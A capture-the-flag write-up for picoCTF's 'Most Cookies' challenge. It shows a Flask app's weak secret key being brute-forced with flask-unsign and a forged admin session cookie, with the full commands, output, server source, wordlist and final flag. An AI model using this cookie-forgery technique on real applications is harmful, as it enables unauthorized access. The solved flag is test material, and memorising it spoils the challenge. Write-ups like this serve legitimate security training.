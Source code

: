 # Most Cookies

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/) (view server.py reference at the end of page)

## Hint(s)

1. How secure is a flask cookie?

## Writeup 
I Started by looking at the source code

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
I didn't know much about flask cookies but this part indicated that a secret key was used to generate the cookie
```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
The code was confusing at first, but analyzing it more we can see that we have to become admin in order to get the flag. How do we do that?

First i did some research on flask cookies work. They use a secret key (as we can in the source code) to encrypt the cookie. In order to be able to change the cookie we have to find what secret key was used and then we can create our own payload.

I started by decoding the cookie. At first i used base64 which worked but gave me some unreadable characters at the end and got me basically nowhere.

After doing some more research, i came accross flask-unsign and realized that its the best tool to use for this challenge. 

You can install flask-unsign using : 
```
 $ pip3 install flask-unsign[wordlist]
 ```
First, we can get the flask cookie and decode it with : 
```
$ flask-unsign --decode --server http://mercury.picoctf.net:65344/
```
Which returns:
```
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI
{'very_auth': 'blank'}
```
Refering back to the code, we can see that to become admin we have to modify the cookie to admin, but that requires a secret key. Then we remember that in the source code, the secret key was chosen randomly from a list of words. 

flask-unsign has an option which allows you to bruteforce cookies with a worldlist in order to find the secret key, exactly what we're looking for!

I then took the words from the source code, put them in a .txt file and bruteforced the cookie using this command : 
```
$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YsAYmQ.qReaqo1ZSnYrCyHkO8GWelrg2bI" --wordlist wordlist.txt
```
We get: 
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attempts
'fortune'
```
And we have the secret key!
Now all we need to do is create our own cookie to get the flag.
We do this by using :
```
$ flask-unsign --sign --secret fortune --cookie "{'very_auth': 'admin'}" 
```
This returns : 
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YsAZzg.vtCG7cliX5WhpIoqQJKpXXeLSqI
```
We're pretty much finished! 
All we have to do now is go to the URL and change the session cookie to our forged one.

**note** : flask cookies are by default named "session".

And then we get the flag : **picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}**

## References  
## server.py

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

### wordlist.txt

```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```